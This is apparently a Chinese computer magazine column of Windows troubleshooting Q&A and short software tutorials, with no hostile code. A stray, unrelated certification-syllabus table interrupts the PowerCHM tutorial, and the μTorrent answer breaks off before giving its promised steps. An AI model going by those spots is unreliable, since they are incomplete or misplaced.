问：我从网上下载了一套DVD格式的视频资料，解压后可以在电脑中使用播放器播放，能够正常显示播放菜单，而使用Nero将其刻录成光盘后播放时却没有播放菜单。请问，如何让刻录的DVD光盘在播放时显示菜单？

答：在Nero中刻录时需要正确地选择刻录方式才行，你的这个情况可能是因为你在刻录时选择刻录方式为“DVD-ROM”，而正确的刻录方法应该是在Nero中选择刻录方式为“DVD-视频”，这样刻录后，只要源DVD视频有播放菜单，刻录的DVD光盘在播放时也会显示播放菜单了。

## 为何无法将WinPE装到优盘中

问：我在网上下载了一个WinPE系统的优盘版，说明文档中说直接将其Ghost到优盘中即可使用。但我试了Ghost程序总是不成功，在Ghost中根本就无法找到优盘。请问如何才能将WinPE装到优盘中去？

答：只要使用Windows环境下可用的Ghost程序进行操作即可，从 http://www.crsky.com/soft/2392.html 下载Windows版Ghost程序，解压后直接运行其中的Ghost32.exe即可，下面的操作与DOS下的操作方法一样，选择“Local→Disk→From Image”，然后打开WinPE的优盘镜像文件并将其写入优盘即可。

## 启动后提示MOM.EXE错误

问：系统中感染了病毒，昨天晚上开着电脑启动杀毒软件进行病毒清杀并在杀毒软件中设置检查完毕后自动关机，今天早上打开系统时就自动弹出一个标题为“MOM.EXE-应用程序错误”的提示框，具体信息为：应用程序正常初始化(0xc0000135)。失败，MOM.EXE-应用程序出错。请问这是什么原因？

答：这个程序是ATI驱动程序的一个进程，而上面的这个错误号是由于系统中缺少.Net Framework运行环境，只要到 http://download.microsoft.com/download/5/6/7/567758a3-759e-473e-bf8f-52154438565a/dotnetfx.exe 下载安装即可解决问题。

## 系统不显示缩略图

问：我使用的是Windows Vista系统，上次使用优化软件对系统进行优化处理后，现在打开含有图片的文件夹后，图片文件显示为一个图标却不再显示缩略图了，即使重新设置也不能显示。请问这该如何解决？

答：尝试以下解决方法：
- 右击“我的电脑”并选择“属性”。
- 选择“高级”选项卡，单击“性能”框中的“设置”按钮。
- 在打开的“性能选项”窗口中单击“视觉效果”选项卡。
- 勾选下面列表中的“显示缩略图，而不是显示图标”项。
- 保存设置应该能解决问题。

### 打开方式中不能选择程序

问：我使用的是Windows XP SP3系统，在选择图片文件的打开程序时，右击图片文件并选择“打开方式”，在打开的窗口中单击“其它程序”时没有了反应。请问如何才能让打开方式中能够选择程序？

答：这个问题可以这样来解决：
- 按Win+R并输入“regedit”打开注册表编辑器。
- 依次定位到[HKEY_CURRENT_USER\Software\Classes\Applications]。
- 找到之前无法添加的程序名称对应的项并直接将其删除。
- 重新打开程序的“打开方式”窗口就可以添加其他程序了。

### 系统盘空间为何越来越小

问：硬盘分区时，为系统盘C分配了10GB的空间，以前使用过程中没有出现过空间不够用的情况，而自从安装了卡巴斯基杀毒软件后，C盘剩余空间一再降低，现在只剩下不到500MB的空间了。请问这是什么原因？

答：卡巴斯基在使用过程中会生成大量的日志文件，时间长了就会浪费大批的磁盘空间。可以通过设置来限制卡巴斯基的日志文件大小，只要简单地设置一下相关参数即可：
- 右击托盘区中的卡巴斯基程序图标并选择“设置”。
- 在打开的设置窗口中选择“选项→报告”。
- 在右侧窗口中勾选“存储报告不超过”项，将日期设置为10天或更短。
- 再勾选“最大文件值”，将文件大小设置为512MB或更小。
- 再单击“清除”按钮即可将之前保存的历史记录清除干净，因此可以大大节约磁盘空间。

### 屏保总是自动用记事本程序打开

问：系统是Windows Vista，安装了一款游戏软件后，双击所有的屏保程序文件(*.scr)，都会自动启动记事本程序打开，请问如何恢复至默认的打开方式？

答：这是文件关联错误而引起的问题，只要重新修复一次关联即可解决问题。最方便的方法就是从 http://www.newhua.com/soft/25562.htm 下载这款“System Repair Engineer”来进行修复，运行后单击“系统修复”，勾选“.SCR”项，单击“修复”按钮即可开始修复了，修复完毕后即可双击打开并启动屏保。

### 组策略所有选项丢失

问：我安装的是Windows XP SP3系统，今天将系统分区由FAT32转换成NTFS格式后，打开组策略编辑器发现所有的选项都没有了，一片空白。请问如何找回组策略中的组件选项？

答：这是由于组策略中对应的组件程序被删除而导致的，解决方法：
先在资源管理器中打开C:\WINDOWS\system32\GroupPolicy\Adm，看该目录中是否有多个*.adm文件，如果没有请再检查一下C:\WINDOWS\inf是否有*.adm文件。其中，*.adm是组策略模板文件，如果缺失，组策略中将不能显示任何内容。不同的系统、不同的应用环境下组策略模板都可能不同，比如说你装的IE6浏览器与安装IE7浏览器的电脑组策略也不同，如果你安装有其他软件，可能也会有附加的组策略模板文件的。
如果你没有找到*.adm文件，可以将“xp-sp2-Gp_Adm.rar”中的文件解压至下面目录，如果没有请创建目录：
C:\WINDOWS\system32\GroupPolicy\Adm
和
C:\WINDOWS\inf
经过上面的操作后，就可以恢复组策略的正常功能了。

### 登录到系统中就出现黑屏

问：我的系统是Windows XP SP3，进入正常模式时，还没见到桌面就出现黑屏，稍后就是显示器无信号，而在启动时按F8进入安全模式就可以正常进入系统。请问这该如何解决？

答：首先检查一下是否因为显示器的刷新频率设置过高而导致的，进入安全模式后右击桌面并选择“属性”，在打开的窗口中选择“设置”选项卡，单击“高级”按钮，选择“监视器”选项卡，将“屏幕刷新频率”设置为60Hz。如果还不能解决问题，考虑显卡的驱动程序是否有问题，在安全模式下将显卡驱动程序卸载并重新安装一遍。

### 字体不能安装

问：感染病毒后使用瑞星杀毒软件将病毒清除干净并重新启动了系统，系统其他方面使用一切正常，但是字体无法成功安装，字体复制到Fonts文件夹后不能弹出安装提示框。请问这该如何解决？

答：能够将字体文件复制到Fonts文件夹后系统会自动弹出安装提示框，主要是由该文件夹中名为“desktop.ini”文件的功劳。而出现无法弹出安装字体对话框的情况则与该文件损坏有关。现在不少U盘类病毒都会在文件夹中生成名为“desktop.ini”的病毒文件，因此，可能是在杀毒时将该文件删除而导致的。解决方法：使用记事本新建一个文件，输入以下内容：
[.ShellClassInfo]
UICLSID={BD84B380-8CA2-1069-AB1D-08000948F534}
最后将该记事本文件另存为“desktop.ini”文件并放到%Windir%\Fonts目录即可。

### 桌面主题为何不能更换

问：Windows XP SP3系统，在桌面属性中设置系统主题时总是提示不成功，设置并保存后就像没有设置一样。请问这该如何解决？

答：这可能是系统中名为“Themes”的服务出现损坏而导致的，请按下面方法来解决：单击“开始→运行”，在打开的运行对话框中输入“services.msc”并回车打开服务管理器，双击“Themes”服务并将其重新开启即可。

## 光驱不能显示

问：对系统进行一次优化设置后发现没有了光驱，甚至在设备管理器中也无法看到光驱，而在BIOS中可以设置从光驱引导系统。请问这该如何解决？

答：这可能是在执行优化操作时动了系统的相关设置而导致的，之前也有读者朋友遇到此问题，通过下面的方法一般可以解决：右击“我的电脑”，选择“管理”，在打开的窗口中选择“设备管理器”；然后在右侧窗口中选择“IDE ATA/ATAPI控制器→次要IDE通道”并将其删除，然后再单击菜单“操作→更新驱动程序”项即可。

## 无法启动API

问：Windows XP SP3系统，今天打开系统时突然提示“系统资源不够，无法启动API”的错误，重新启动亦不能解决。请问这是什么原因？

答：这一般是由于系统分区剩余空间不足而导致的，你直接在资源管理器中右击系统盘符，选择“属性”，在打开的窗口中查看系统分区的剩余空间，如果剩余空间很少，请尝试清理回收站、系统垃圾文件。也有可能是系统染毒而引起这个故障，排除系统分区剩余空间过小的原因外，尝试重新启动系统到安全模式下，使用最新版的杀毒软件对系统进行全面检测，建议最后再使用Windows清理助手检测系统中可能感染的流氓软件。

## 彻底删除一键还原精灵

问：我安装了一键还原精灵，使用起来感觉没有Ghost程序来得直接、干净，之后又将一键还原精灵卸载了，但是在系统启动菜单中仍留有一键还原精灵的相关项。请问如何才能将这些信息彻底清除掉？

答：首先，打开控制面板，双击“文件夹选项”图标，设置显示隐藏文件及系统文件，然后打开C盘根目录下的boot.ini文件，直接将该文件中重复的系统启动项删除，再将“c:\geldr=一键还原精灵专业版”项删除，保存该配置文件，重新启动系统时就不会有一键还原精灵的相关项了。

## 彻底关闭系统中移动设备的自动播放

问：电脑中安装的是Windows XP，由于我的电脑经常被同学、朋友使用，他们使用优盘、手机导致系统中经常感染移动设备病毒，我想将系统中的移动设备自动播放功能关闭掉，但都是先插上设备，在“我的电脑”中出现盘符后才可以进行这样的设置。请问，有没有什么方法可以直接彻底关闭移动设备的自动播放功能，不管他们插入什么设备都不会自动播放？

答：可以直接通过组策略功能将其关闭：按下Win+R打开运行对话框，输入“gpedit.msc”并回车，在打开的组策略编辑器中依次定位到“计算机配置/管理模板/系统”，然后在右栏的“设置”项下双击“关闭自动播放”，启动该策略，在下面的设备列表中选择“所有设备”项，然后保存设置即可。

## “章节分割器”不能正常工作

问：为了方便将网络小说分割成手机支持的大小，我一直使用“章节分割器”，在我的台式机中使用一切正常，但在笔记本电脑中使用时，双击无反应，任务管理器的进程列表中也没有相关项。请问这是什么原因？

答：“章节分割器”支持的最低版本的操作系统是Windows 2000，如果你使用的是更低版本的系统，正常情况下就无法使用了。你可以尝试右击该程序并选择“属性”，在打开的窗口中选择“兼容性”，勾选“用兼容模式运行这个程序”，这样就可以解决因为软件版本不兼容而引起的问题。当然，也有可能是系统中安装的杀毒软件、防火墙对其拦截所致，请尝试将其添加到杀毒软件的白名单中即可。

## 如何让所有的文件夹统一风格

问：刚安装Windows Vista Ultimate系统，不同的文件夹的布局都不一样，会根据保存的内容不同而自动更换成不同的风格。请问，如何统一所有的文件夹风格？

答：可以这样设置来达到目的：选择一个驱动器或文件夹，右击文件夹并选择“属性”，单击“自定义”标签，在“您想要哪种文件夹”列表中选择一种风格（文档/视频或音乐），再勾选“把此模板应用到所有文件夹”项，最后单击“确定”即可实现统一所有文件夹风格的要求了。

## 光影魔术手边框损坏

问：我从光影魔术手的官方网站下载了一些边框文件，都将其放到安装目录中，但是在使用时却总是提示“此边框已坏”，重新下载亦如此。请问这该如何解决？

答：这主要是你将边框文件存放的位置不正确所致，在下载边框时，下面页面中的每个边框右侧都会提示你将边框文件放到指定的文件夹中，而不是任意存放就能使用的。

## 打开文件夹巨慢无比

问：我使用的是Windows XP SP3系统，最近刚安装了WinZIP程序，现在只要在资源管理器中打开含有压缩包的文件夹，系统会自动显示压缩包中的所有文件，如果文件夹中含有大量的压缩包文件，打开文件夹的速度就巨慢无比。请问如何取消WinZIP的自动显示压缩包中文文件的关联？

答：只要单击“开始→运行”，输入“regsvr32 /u zipfldr.dll”并回车即可取消关联，之后再打开压缩包文件夹就不会出现类似情况了。

## 如何减少μTorrent强制检查的次数

问：平时下载BT文件时都使用μTorrent，但在进行下载时每当停止下载任务再重新继续下载时，它便自动启动强制检测，下载一些大文件时，检测时间往往需要几十分钟。请问能否将此功能关闭？

答：下载时在遇到突然掉电、死机、非正常重启等情况时容易出现强制检查的情况，在这些情况发生时，μTorrent来不及将缓存中的数据写入文件，来不及更新下载文件的进度，所以在正常重启后μTorrent都会强制对文件进行检查，获取了正确的下载进度后才会继续下载。强制检查功能是不能关闭的，但可以按下面的方法来减少检查次数。

## 如何固定KMPlayer播放器的播放窗口

问：看电影我都用KMPlayer播放器，而将多部视频添加到播放列表后，在播放时它会根据视频的尺寸自动改变播放窗口的大小。请问，如何才能固定KMPlayer播放器的播放窗口？

答：在播放器窗口打开后按“F2”打开参数选项设置窗口，依次选择“基本设置→常规播放设置”，在右侧设置窗口中的“播放开始|移动间隔”选项卡中将“如果播放开始”设置为“以当前尺寸播放”即可。

## 只显示盘符如何提取文件

问：我的移动硬盘，连接到系统后只能看到盘符，但却无法访问，而移动硬盘中保存了大量重要的文件。请问，这种情况下如何将移动硬盘中的重要数据提取出来？

答：出现这种情况，一般都是先考虑数据备份再考虑修复。而进行数据备份时，可以腾出一块本地磁盘，然后借助Ghost程序的分区备份成映像文件功能试着将移动硬盘中的数据备份出来，如果能成功备份，然后再使用Ghost Explorer程序直接打开GHO文件便可读取其中的文件了。其次，尝试使用Easy Recovery程序进行数据恢复操作。此外，一些移动硬盘出现无法访问的问题，多数是由于供电不足而导致的，建议将移动硬盘连接到机箱后置USB接口中，有外置电源的话，为移动硬盘进行外置供电往往可以解决无法访问的问题。

## 如何还原卡巴斯基删除的文件

问：安装了卡巴斯基后，它将我的一些重要文件删除了，删除时卡巴斯基给出提示说是删除到隔离区中了。请问，如何才能将卡巴斯基删除的文件找回来？

答：打开卡巴斯基，单击“已检测”链接，在打开的窗口中选择“隔离”项，在打开的隔离列表中将被隔离（删除）的文件选中，再单击“还原”按钮即可。

## 如何找回剪切的文件

问：将一份重要的Word文档通过剪切的方法移到优盘中，但是完成移动操作后发现优盘上并没有该文件，但原文件也消失了。这篇文档特别重要，请问能否将其找回？

答：剪切操作对源文件来说就是删除，出现这种情况后，请不要对优盘、源文件所在磁盘进行任何文件读写操作，使用Easy Recovery（下载地址：http://www.newhua.com/soft/11308.htm）进行数据恢复，这样的一篇文档，应该能轻松地找回。

## 网页文档格式排版我做主

文/任小勇

大家经常上网阅读时，把网页上复制下来的文字放在Word 2003中排版，竟然发现不听我们指挥，郁闷。有些段前、段中、段后空行，怎么也删不掉，仔细观察原来回车竟然有软硬区别。硬回车就是普通我们按回车产生的，它在换行的同时也起着段落分隔的作用。软回车是用 Shift + Enter 产生的，它换行，但是并不换段，即前后两段文字在 Word 中属于同一“段”。我们在网页看到的文字，为了版面整齐，网页文档都是以表格形式存在，在换行时用的是软回车，但在Word 2003中并没有软硬回车转换功能的菜单，在WPS 2007中可以直接实现转换，也可以删除软回车。具体操作是选择“工具→文字工具→软回车转为回车”，再选择智能格式整理，一切都搞定。

在Word中如何排版呢，弄清了网页文档是以表格形式存在，那么我们从网页中复制文字后，要选择编辑菜单下的选择性粘贴，选择里面的无格式文本，这样就不会有软回车产生了。再使用Word中替换功能，要先替换空格，再替换空段。这一点很重要哦。好多朋友在具体操作中遇到这样的问题，在查找内容输“^p^p”，替换为“^p”，但空行并没有删除，就是这个原因啊，具体操作如下：

从“编辑”菜单中打开“替换”对话框，把光标定位到“查找内容”文本框中，按一下空格键输入一个空格（默认情况下是半角空格），“替换为”文本框中什么都不填。单击“全部替换”，Word将删除所有的空格。但还有可能有全角下的空格，打开中文输入法，按Shift+空格键，切换到全角状态，然后按空格键在“查找内容”框里输入一全角空格，“替换为”为空，再按“全部替换”，所有的全角空格也都删除了。再单击对话框中的“高级”按钮，然后单击“特殊字符”，选择“制表符”，在“查找内容”框中会出现“^t”（当然也可以手工输入），“替换为”为空，再单击“全部替换”，制表符空格也都没了。

删除空段的时机终于成熟了。在“查找和替换”对话框的“高级”模式下，两次单击“特殊字符”中的“段落标记”，“查找内容”框中将出现两个“^p”（也可以手工输入“^p^p”），再把光标定位到“替换为”框中，单击“段落标记”输入一个“^p”，再单击“全部替换”，文档中所有的空段全部消失。

### 杜绝响一声就挂断的手机防火墙

文/TMG qf

是不是经常有陌生人打电话来，可电话响一声就自动挂断了？还会有垃圾诈骗的短信总是骚扰着我们？为了免除这种烦恼，我们可以给手机安装一款短信、来电防火墙。目前比较流行的几款软件有GG小强、来电通、网秦通讯管家等，它们各有特点，我们可以根据自己的需要选择使用。

#### GG小强

GG小强是一款功能强大的来电管理软件（下载地址：http://www.skycn.com/soft/52934.html），来电时可以显示电话归属地、来电场景，还可以防止电话被盗、进行通信记录备份等等。

- **第一步：** 下载GG小强软件，安装软件。进入GG小强界面，界面顶部有“系统模式”、“自建模式”及“通话模式”。
- **第二步：** 选择系统模式，设置来电接听方式。软件提供了“全部接听”、“全部拒听”、“只接听名片夹”及“只接听VIP”的快捷方式来方便我们直接设置（见图1）。


- **第三步：** 可以自己设定接听模式，切换到“自建模式”，自己设置接听方案，包括酷铃接听、酷铃选择、录音提示等；还可以设置拒接方案，包括回复短信、直接挂断、语音提示等（见图2）。



- **第四步：** 可以让手机在通话中播放背景音乐，制造一种环境、气氛。在“模拟来电”方式下长按“*”键即可激活，背景音乐在通话时会响起。可以添加自己喜欢的背景音乐。

#### 来电通

来电通是一款比较简单的软件（下载地址：http://www.skycn.com/soft/38390.html），它带有的来电过滤功能，可以根据号码或地区对来电进行拦截，并且将来电号码设为黑名单，拒接其来电。

安装后进入来电通主界面，选择“来电过滤”选项，进入来电过滤设置界面。在过滤名单中输入想要拒接的电话号码，这样就建立了“黑名单”，以后再有不想接听的电话，直接存到手机自带的黑名单分组中就可以了。

#### 网秦通讯管家

网秦通讯管家（下载地址：http://www.skycn.com/soft/40177.html）拦截垃圾短信的功能比拦截来电的功能强。它具有基于语义特征的自动短信内容过滤、情景驱动的人性化来电防火墙、礼貌拒接来电等强大功能，同时该软件还独设私密模式。



进入网秦通讯管家主界面，开启“短信过滤开关”，网秦通讯管家会根据语义特征自动过滤掉垃圾短信，在拦截短信后会有提示（见图3）。网秦通讯管家还提供了私密空间功能；可以将一些来电记录及短信转移入私密空间，这些信息就不会被查看，保护了隐私。

这三款避免骚扰来电的软件各有特色，操作都很简单，且有很好的效果，你可以根据自己的需要选择一款。

### Abplayer高清视频体验 上班时间看大片

文/TMG hmm

想要看的视频画面清晰，想要在上班时刻看电影，又想要不被老板发现，爱播高清视频播放器轻轻松松解决你的烦恼，满足你的需要。

下载爱播软件（下载地址：http://www.newhua.com/soft/1262.htm），快速安装。双击可执行文件，即可打开软件。

- **老板键：** 这个功能算是为上班族贴心打造的。当你正在兴致勃勃地背着老板看电影，忽然发现老板真的来了，怎么办？点击右键选择“老板来了”或者按下F9或Alt+S，播放窗口便消失得无影无踪。老板找都找不到播放的任何痕迹。这个时候影片属于暂停状态，再按一下快捷键（F9或Alt+S），就可以继续接着欣赏您的影片了，工作娱乐两不误。
- **屏幕截图：** 点击截图按钮，便可随意保存任何阶段的视频画面。操作方便。
- **记忆播放：** 功能实在，帮助用户记忆上次停止观看的时刻和画面，只需点击鼠标右键依次选择“打开→打开最近播放→影片”即可继续播放了。
- **播放配置：** 像绝大多数播放软件一样，可以根据自己的需要设定最喜欢或最适合的播放配置功能，如“字幕”、“常规”、“高级”设置等。

从此，轻松快乐地享受高清视频带给自己的震撼体验，完全无需躲躲藏藏担惊受怕！

### “雅虎乐译”定位气泡——让查询更方便

文/TMG lxr

熟悉“雅虎乐译”这个软件的朋友们都知道，当我们安装了该软件后，会在电脑桌面上出现一支可爱的半透明的笔，方便我们能够笔触取词。但是，有的时候我们的电脑桌面放的东西太凌乱，这支笔的位置不易被发现，不方便我们查询。那么，我们可否为这支笔找一个笔筒，使它的位置固定下来，更加显眼呢？答案是肯定的。

这个笔筒就是软件中的定位气泡，它可以拖动到桌面的任意位置，想固定在哪里就固定在哪里，方便我们找到，这样就可以使移动笔的位置更加突出明显。每次使用完之后，只要将鼠标一松开，移动笔就会在第一时间返回我们为它设置好的定位气泡中，免去了苦苦寻找的烦恼，极大方便了使用！

- 第一步：打开“雅虎乐译”软件，单击软件主窗口的“菜单”，选择“设置”选项进入设置窗口。
- 第二步：打开“设置”界面后，选择进入“常规”选项，勾选“打开定位气泡”选项。
- 第三步：然后再进入“移动笔设置”面板中，调节移动笔的大小以及透明度，对移动笔进行相关设置（见图）。
- 第四步：完成设置，你就会看见移动笔被牢牢地“锁”在我们设置好的定位气泡中。这样，在你完成查询之后，它就会“自觉地飞到”定位气泡中，方便你下一次“寻找”它。



怎么样？是不是有意想不到的收获？赶快来开启“定位气泡”功能吧！不仅使移动笔用起来更加方便，而且也可以让你的电脑桌面看起来更加精彩、更加活泼！

### “音乐管家婆”管理你的音乐世界

文/TMG zlw

相信不少音乐爱好者的电脑里一定存放了很多的音乐文件。如果你和我一样，平时听歌听得比较杂，收集的音乐种类也多种多样，那查找起来一定也是个令人头疼的问题。没有统一的分类标准，所有音乐都混存在一起，若是平时听歌是采用随机模式的话，只怕会有那么一些音乐，从收藏至今都没有被再次聆听过。要真的这样，还是比较悲哀的。好的东西，特别是音乐，是不能被遗忘的。

现在好了，一款“音乐管家婆”软件就能将这么棘手的问题轻松解决掉。官方说法说它是一款专为“懒人”而开发的音乐管理软件，正合适我使用。说来也对，自从我使用了“音乐管家婆”软件后，想听某类型的音乐就去相应的类型中寻找，不同的心情也可以用相应的音乐来抚慰、来疗伤，还真是一件相当惬意的事。现在就将它推荐给各位吧。

下载地址：http://www.newhua.com/soft/41958.htm

下载后进行解压缩，该软件是不需要安装的，直接双击解压后出现的执行程序，就可以开始运行使用，进入其主界面。

音乐管理行动即将开始：

- 第一步：单击主界面的“文件”菜单，在弹出的下拉列表中选中“添加音乐目录”选项。
- 第二步：在出现的“选择音乐目录”列表中选择存放音乐的文件夹。单击“确认”按钮，所选文件夹中的所有音乐文件便全部添加至“音乐管家婆”软件。
- 第三步：当所有被选音乐文件全部添加进来后，软件便会根据自动获得的文件标签信息对这些音乐文件进行分类。这些信息包括：音乐文件类型、艺术家、专辑等。当这些文件分类保存完毕后，我们的管理工作便会轻松很多（见图）。



如果你不是很习惯这种软件自带的分类标准，你也可以根据自己的习惯，自定义新的类别，拥有专属的歌单列表。

单击主界面中的“操作”菜单，在其下拉列表中选中“添加新类别”选项进行添加。在随后弹出的对话框中键入自定义的新类别名称，最后点击“确定”按钮即可。

我们还可以在之前的分类或者自己新添加的类别中添加歌曲。在软件的歌曲列表中选中需要转移的音乐文件，依旧是在“操作”菜单下，这时需要点击“添加到类别”，在其后所示的所有类别中选定目标类别，点击即可。这样，该音乐文件就自动加入到了应属类别中，你可以在该类别的歌曲列表中看到移动至此的音乐文件。

各位，知道怎么利用“音乐管家婆”软件来管理电脑中存放的杂乱无章的音乐文件了吗？好好利用它吧，以后就不需要如同大海捞针般地找寻想要听的歌曲了，也就能静下心来欣赏那悠扬的旋律，聆听那动人的歌词了。你会发现，音乐的世界原来如此美好。

### Avira AntiVir Personal免费杀毒

文/TMG hzl

当前，病毒横行天下，防毒软件是每台电脑都不可或缺的。到底有没有一款性能极佳而且完全免费不用注册的杀毒软件呢？Avira AntiVir Personal（小红伞）给广大用户带来了福音，这款专业的免费杀毒软件，能够检测并移除超过60万种病毒，同时支持网络更新，对于很多人来说实在是很不错的选择。

下载Avira AntiVir Personal杀毒软件（下载地址：http://www.newhua.com/soft/2751.htm），安装完成后，即可启动Avira AntiVir Personal程序。

#### 轻松开启实时防护功能

我们的电脑经常受到各种攻击，防不胜防，现在有了Avira AntiVir Personal，根本就不用再担忧什么，它会化作守门神，帮助你时刻防护着电脑，把木马、病毒等恶意程序都拒之门外。

在Avira AntiVir Personal程序图标上右击。然后在打开的快捷菜单上，选择“AntiVir Guard enable”选项，即可轻松开启杀毒工具的实时防护功能。

#### 杀毒操作极其简单

需要查杀病毒时，在Avira AntiVir Personal程序图标上右击，然后直接选择快捷菜单上的“Start AntiVir”选项。在出现的页面中单击“Scan system now”，即可直接查杀系统中的病毒。感觉是不是很轻松很简单呢？病毒一经发现，立即查杀，十分安全高效（见图1）。



#### 设置杀毒规范可提高效率

很多人都喜欢设置杀毒规范，方便查杀病毒，而且还能有效提高杀毒效率。利用Avira AntiVir Personal的自定义功能，我们也能轻易实现这些需求。

- 第一步：在Avira AntiVir Personal程序图标上右击，直接选择快捷菜单上的“Configure AntiVir”选项。
- 第二步：在随后弹出的界面上，勾选“Expert mode”，接着逐次双击“Scanner”和“Scan”，然后单击“Archives”，即可在其页面上自定义杀毒规则，比如我们可以制定查杀文件的类型、将应用程序添加到免查杀列表等等（见图2）。



- 第三步：设置完毕，最后单击“OK”按钮，这些设置也就能实施了。

#### 设置定期杀毒保护安全

千万别忘了设置定期杀毒，这样才能有效保护我们机器的安全。

打开“Administration→Scheduler”选项，在“Scheduler”页面上，制定查杀病毒计划，这样我们就能定期杀毒，防止任何疏漏发生。

总的来说，Avira AntiVir Personal（小红伞）这款德国著名杀毒软件，功能全面，杀毒迅速准确，并且自带防火墙，软件体积也很小，实在是装机必备的优良软件。相信大家使用后，会让你的电脑变得更加干净安全。

### 有了PowerCHM，CHM文档转换不用愁

文/TMG qf

很多软件的帮助文档、产品说明都是用CHM格式的文档来显示的。CHM文档能很清晰地呈现所要表述的内容，带有目录结构，能够让阅读者很快找到自己想要的信息。还带有索引、搜索、书签功能，十分方便我们阅读。但我们大部分的资料还是以doc、txt、html这些格式存在的，要想把它们转换成CHM格式的就需要转换软件来帮忙了哦。PowerCHM就是这么一款很轻便实用的转换软件。

下载地址：http://down.tech.sina.com.cn/content/43414.html

- 第一步：下载解压缩PowerCHM软件，运行PowerCHM，进入软件主界面。导入需要转换的文件，单击“导入文件”按钮，选择多个需导入的文件。加载的文档会在“目录”中看见标题，如果标题不合适的话，可以右键点击它，从右键菜单中选取“重命名”来更改标题。若要导入的文件都在同一文件夹下，则可以简便地单击“添加目录”按钮，添加这个文件夹（见图）。



计算机网络管理师职业资格

| 序号 | 内容 |
| --- | --- |
| 1 | 1.计算机网络定义、OSI层与TCP/IP模型 2.数据通信技术指标、网络传输介质、802协议 3.复用技术、交换技术、差错控制（CRC校验法） |

- 第二步：当我们加入的文档比较多时，我们可以给它们分类。右键点击某篇文档的标题，选择右键菜单中的“添加子文件”图标，然后再按照上述方法加入文档，这样加入的文档可以进行归类管理，阅读时也比较方便。
- 第三步：单击菜单栏中的“Tools”工具按钮，在弹出菜单中选择“CHM Compile”按钮，即会弹出对话框。在这个对话框中我们可以设置将要生成的CHM文档名称、保存路径等等。设置完成后，单击对话框下方的“Compile”按钮，生成CHM文档。

PowerCHM是一款很好的CHM文本制作软件，它的功能强大，并且我们可以很快掌握它的使用方法。想自己动手制作CHM电子书了吗？赶紧下载PowerCHM试试吧！

### Babylon——学习英语的得力助手！

文/TMG lxr

你还在为工作和学习中的英语学习而烦恼吗？一个陌生的单词、一段陌生的句子、一种烦人的语法，相信其中之一的不断出现就足以打消你学习英语的积极性，简直就成了你英语学习道路上的拦路虎！现在，你无须烦恼了，有Babylon来帮你，让你很快消除这些担忧，使你在学习英语的道路上，一路畅通！

该版本是“Babylon 7.5.2 r13 多国语言版”，不仅仅支持中文和英文，还支持其他语言。功能强大，体积小巧，仅6700KB，下载地址：http://dl.pconline.com.cn/html_2/1/76/id=1933&pn=0.html。

#### 单词小助手

单词是学好英语的基础，也是我们英文学习中最头疼的事情，记忆起来十分困难。但如果借助Babylon软件则可以达到事半功倍的效果。基于Babylon的查阅方式，我们可以采取两种记忆方法，“一意多词”记忆法和“一词多意”记忆法。

##### 1. 一义多词记法

把一个单词的汉语意思输入给Babylon后，它就会将与这个单词意思相近的单词或短语都显示出来。这样就使你在记忆一个单词的时候，同时记住了另外几个单词，增加单词的词汇量，而且还可以对它们进行区分，一举两得，事半功倍。

##### 2. 一词多义记法

将英语直接输入给Babylon，它会将该单词不同词性和意思全都显示出来。如：你输入“meet”，单击“开始”，就会显示“meet”作为形容词、名词以及动词的含义。这种方法可以帮你把一个单词的全部含义一次性搞明白、记清楚！既省时省力又增加了单词记忆量。

#### 英文写作小助手

在英文的写作中，我们常会遇到一些不会表达的句子，可以求助于Babylon。

首先将你需要翻译的句子的汉语意思输入给Babylon，然后单击“翻译文本”，它就会立即给你一个答案。需要注意的是，有时候这个答案不是很标准，需要我们对句子的顺序稍做一些调整。毕竟它只是一个软件，灵活性还是不够的，但是我们认为这样至少可以给我们一个启发，有助于我们提高英语写作水平。

#### 语法学习

语法学习是很多英语学习者最头痛的事情。往往我们是花费大量的时间来专门攻克，但到真正用的时候，还是会犯迷糊！Babylon会帮助你。它可以让你在轻松记忆单词的同时掌握很多的语法，这也是它的特色之一。



如下图所示：单击“meet”动词词性后面的小三角符号，软件自动给出了该单词的不同时态的单词形式；同时单击该单词名词词性后面的小三角，也会显示它的单复数形式。

#### 英语朗读

“哑巴式英语”成为很多英语学习者的一大困惑。单词全都认识，英语写作也没问题，英语语法也全都搞定，可就是张不开口，读出来的单词有点让大家听不太明白。将你不会读或者读不准的单词或句子输入到Babylon里，单击带有小喇叭状的按钮，即可听到相应的发音。可以反复听，直到会读为止。

让Babylon帮你扫清英语学习的障碍，成为你学习英语的得力助手吧。

### QQ头像变摇头娃娃啦

文/TMG qf

我们在用QQ的时候，经常会看到这样的表情，一个大头照加上很Q的身体在不停地动，很有趣，这是怎么做出来的？美图秀秀的“摇头娃娃”功能就能轻松帮你做出这些表情。

- 第一步：下载美图秀秀软件（下载地址：http://dl.pconline.com.cn/download/51740.html），安装软件。打开美图秀秀软件，单击“打开一张图片”按钮，选择一张你要编辑的图片。
- 第二步：单击“闪图”按钮，进入闪图编辑界面。再单击界面左侧的“摇头娃娃”按钮，它又分为“搞笑摇头娃娃”、“非主流摇头娃娃”、“可爱摇头娃娃”、“其他摇头娃娃”四个类别。例如我们选择“非主流摇头娃娃”那个分类。
- 第三步：在右侧的具体摇头娃娃样式中，选择一个喜欢的，单击图片。



- 第四步：这时鼠标箭头已经变成了画笔，现在我们要在照片中框选出人物头像，也就是所谓的抠图。我们只需沿着人物头像的轮廓勾选一圈，使其闭合即可。
- 第五步：抠图完成后，软件会自动生成摇头娃娃的动态效果，单击“保存”按钮，选择一个保存路径就可完成制作。

### Beyond Compare神奇比较图片差异

文/TMG qf

很多人对“大家来找茬”一类的益智游戏很感兴趣。游戏虽然趣味盎然，但也是对自己眼力的大考验，你能想象玩“来找茬”游戏也能用“外挂”偷懒吗？何不试试Beyond Compare?

- 第一步：下载Beyond Compare（下载地址：http://www.onlinedown.net/soft/23172.htm），安装软件。打开软件，单击“图片比较”按钮，软件会进入图片比较界面（见图1）。


- 第二步：进入“图片比较”窗口，Beyond Compare采用了并排的版式，我们只需要在左、右两侧分别载入需要比较的两张图片即可（可以直接用鼠标拖拽图片进窗口）。图片载入后，主窗口中间的“差异面板”会自动用高亮颜色标示两张图片的差别。红色表示不同的像素；蓝色表示相似的像素；黑色表示相同的像素（见图2）。



